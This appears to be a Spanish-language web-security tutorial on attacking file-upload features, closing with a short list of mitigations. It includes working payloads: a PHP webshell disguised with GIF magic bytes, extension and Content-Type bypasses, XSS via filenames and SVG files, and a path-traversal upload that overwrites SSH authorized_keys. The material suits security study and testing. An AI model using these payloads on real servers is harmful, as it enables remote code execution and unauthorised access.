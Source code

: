 # Introducción

Muchas aplicaciones web necesitan que los usuarios suban archivos: una foto de perfil, un DNI para verificación, un documento de trabajo, etc. Si esta funcionalidad no se implementa con una seguridad férrea, se convierte en un vector de ataque muy potente.

Explotar una vulnerabilidad en la subida de archivos puede llevar a:

- **Ejecución Remota de Código (RCE):** El impacto más alto. Subir una "webshell" (un script malicioso) y tomar control del servidor.
- **Cross-Site Scripting (XSS):** Atacar a otros usuarios que vean el archivo o su nombre.
- **Path Traversal:** Sobrescribir archivos críticos del servidor o colocar archivos en ubicaciones no deseadas.
- **XML External Entity (XXE):** Si se suben y procesan archivos basados en XML.
- **Denegación de Servicio (DoS):** Subir archivos que colapsen el servidor.

### Anatomía de una Petición de Subida de Archivo

Para entender cómo atacar, primero hay que entender cómo funciona una petición de subida. Suelen usar `POST` con `Content-Type: multipart/form-data`. Aquí tienes un ejemplo capturado con Burp o Caido:

```http
POST /cuenta/subir_imagen.php HTTP/1.1
Host: mibanco-seguro.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryePkpFF7tjBAqx29L
Content-Length: 184

------WebKitFormBoundaryePkpFF7tjBAqx29L
Content-Disposition: form-data; name="user_file"; filename="test.jpg"
Content-Type: image/jpeg

[...contenido binario de la imagen...]
------WebKitFormBoundaryePkpFF7tjBAqx29L--
```

**Puntos clave a manipular:**

1. **`filename="test.jpg"`:** El nombre del archivo. Podemos cambiarlo para probar diferentes extensiones, path traversal o XSS.
2. **`Content-Type: image/jpeg`:** El tipo de archivo que el navegador dice que está enviando. Podemos cambiarlo para intentar engañar a los filtros del servidor.
3. **`[...contenido binario...]`:** El contenido real del archivo. Aquí es donde iría el código de nuestra webshell o nuestro payload XSS.

### Técnicas de Explotación y Bypasses

#### 1. RCE mediante Subida de Webshells

Este es el objetivo principal. Consiste en subir un archivo con código ejecutable (PHP, ASP, etc.) y luego acceder a él a través de su URL para que el servidor lo interprete y nos dé una shell.

**A. Bypass de Filtros de Extensión:**

- **Doble Extensión:** Si el filtro es simple, puede que solo mire la última parte.
  - `shell.php.jpg`
  - `shell.php.123`
- **Extensiones Alternativas:** Los servidores web a veces están configurados para ejecutar otras extensiones además de `.php`.
  - Prueba con: `.php5`, `.phtml`, `.phar`
- **Variaciones de Mayúsculas/Minúsculas:** Si el servidor corre en Windows (que no distingue mayúsculas de minúsculas en nombres de archivo) pero el filtro sí lo hace.
  - `shell.PhP`, `shell.pHp`
- **Null Byte (`%00`):** En aplicaciones antiguas (PHP < 5.3.4), el null byte puede terminar la cadena del nombre de archivo, haciendo que el servidor ignore lo que viene después.
  - `shell.php%00.jpg`

**B. Bypass de Filtros de `Content-Type`:**

A veces el servidor comprueba que el `Content-Type` sea de una imagen (e.g., `image/jpeg`) pero no comprueba la extensión de forma robusta.

- **Estrategia:** Intercepta la petición con Burp. Sube un archivo `shell.php` pero cambia la cabecera `Content-Type` de la petición a `image/jpeg`. El servidor podría aceptar el archivo y guardarlo con la extensión `.php`.

**C. Bypass de Validación de Contenido (Magic Bytes):**

Algunos filtros más avanzados leen los primeros bytes del archivo (los "magic bytes") para verificar que realmente es una imagen.

- **Estrategia:** Añade los magic bytes de un tipo de imagen permitido al principio de tu archivo de webshell.
  - Ejemplo para un GIF:

```php
  GIF89a;
 <?php system($_GET['cmd']); ?>
```

- El servidor lee "GIF89a;", piensa que es un GIF válido, y guarda el archivo. Si lo guarda con extensión `.php`, el código se ejecutará.

#### 2. XSS mediante Subida de Archivos

- **XSS en el Nombre de Archivo:** Si la aplicación muestra el nombre del archivo subido en algún sitio sin codificarlo correctamente.
  - **Payload en `filename`:**

```http
Content-Disposition: form-data; name="file"; filename="<img src=x onerror=alert(document.domain)>.png"
```

- **XSS en el Contenido del Archivo:**
  - **Estrategia:** Sube un archivo que contenga un payload XSS (e.g., `<script>alert(1)</script>`) y manipula la petición para que el `Content-Type` sea `text/html`.
  - Si tienes éxito, cuando alguien acceda a la URL del archivo "subido", el navegador lo renderizará como HTML y ejecutará el script. Esto puede funcionar incluso si la extensión es `.png` o `.jpg`, si el servidor se fía de la cabecera `Content-Type` que tú le envías al servir el archivo.
- **XSS en Archivos SVG:** Los archivos SVG son XML y pueden contener JavaScript. Son un vector de XSS muy común si se permite su subida.
  - **Payload (`payload.svg`):**

```xml
 <svg xmlns="http://www.w3.org/2000/svg" onload="alert('XSS')"/>
```

#### 3. Path Traversal en la Subida

Si la aplicación usa el `filename` para construir la ruta donde se guarda el archivo, se puede intentar usar `../` para salir del directorio de subidas.

- **Objetivo:** Sobrescribir archivos importantes o colocar un archivo en una ubicación inesperada.
- **Payload en `filename`:**

```http
 Content-Disposition: form-data; name="upload"; filename="../../.ssh/authorized_keys"
Content-Type: text/plain
[... tu clave pública SSH ...]
```

Si funciona, podrías obtener acceso SSH al servidor. Otro objetivo podría ser sobrescribir un `.htaccess` para permitir la ejecución de ciertos tipos de archivo, o un `index.php` para poner tu propia puerta trasera.

### Mitigaciones (Cómo Deberían Defenderse)

Entender las defensas te ayuda a saber cómo romperlas.

- **Lista Blanca de Extensiones:** Solo permitir un conjunto cerrado de extensiones seguras (e.g., `jpg`, `png`, `pdf`). Rechazar todo lo demás. Es mucho más seguro que usar una lista negra.
- **Renombrar Archivos al Guardar:** La mejor práctica. La aplicación debería generar un nombre de archivo aleatorio y seguro, ignorando completamente el nombre proporcionado por el usuario.
- **Validar el Contenido del Archivo:** No fiarse de la extensión ni del `Content-Type`. Verificar los magic bytes y, si es una imagen, re-procesarla con una librería segura (esto puede eliminar metadatos y código malicioso).
- **Almacenar Archivos Fuera del Web Root:** Guardar los archivos en un directorio que no sea accesible directamente desde una URL. Servirlos a través de un script que verifique los permisos del usuario.
- **Forzar `Content-Disposition: attachment`:** Al servir los archivos, usar esta cabecera para indicar al navegador que debe descargar el archivo, no intentar mostrarlo.
